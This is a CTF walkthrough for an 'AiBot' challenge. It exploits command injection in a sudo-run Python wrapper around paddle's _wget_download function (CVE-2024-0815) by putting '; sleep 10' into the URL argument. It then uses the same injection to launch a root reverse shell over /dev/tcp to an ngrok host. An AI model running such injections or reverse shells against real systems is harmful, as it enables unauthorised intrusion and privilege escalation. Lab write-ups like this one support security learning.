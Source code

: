 ```yaml
---

title: "AiBot"  
date: "2025-4-15"  
thumbnail: "/assets/img/thumbnail/Aibot.png"

---
```


# AiBot
---
## WALKTHROUGH 
This challenge is from Cybertalant 2025 ramadan nights CTF

---

First thing we got is a terminal with a user called **ttyduser** to list this user permissions use 
```bash
sudo -l
```

![image.png](/assets/img/posts/Aibot/image.png)
ttyduser can run **/usr/bin/python3 /opt/aiwget.py** with sudo 

```python
import argparse
import re
from paddle import utils

def is_valid_url(url):
    regex = re.compile(
    r'^(?:http|ftp|https)s?://',
    re.IGNORECASE,
    )
    return re.match(regex, url) is not None

def is_valid_path(path):
    return path.startswith("/tmp")

def main():
    parser = argparse.ArgumentParser(description='Download AI Model.')
    parser.add_argument('url', type=str, help='URL to download from')
    parser.add_argument('path', type=str, help='Path to save the file, must start with /tmp')
    args parser.parse_args()
    if not is_valid_url(args.url):
        raise ValueError("The URL is not valid.")
    if not is_valid_path(args.path):
        raise ValueError("The path must start with /tmp.")
    utils.download._wget_download(args.url, args.path)

if __name__ == '__main__':
    main()
```
This script requires two arguments:
1. **url**: the link to the AI Model to download
2. **path**: path to save model to and must start with /tmp

Takes the arguments directly from the user and passes them to _wget_download function
we found a cve for [utils.download._wget_download](https://nvd.nist.gov/vuln/detail/CVE-2024-0815) function

![image.png](/assets/img/posts/Aibot/image%201.png)

So we tried to do so

```bash
sudo /usr/bin/python3 /opt/aiwget.py "https://; sleep 10" /tmp/model
```

![image.png](/assets/img/posts/Aibot/image%202.png)

and it works so lets try to get a revere shell using ngrok

```bash
ngrok tcp 4444 
```

![image.png](/assets/img/posts/Aibot/image%203.png)

```bash
sudo /usr/bin/python3 /opt/aiwget.py "https://; bash -c 'bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/14455 0>&1'" /tmp/model
```

![image.png](/assets/img/posts/Aibot/image%204.png)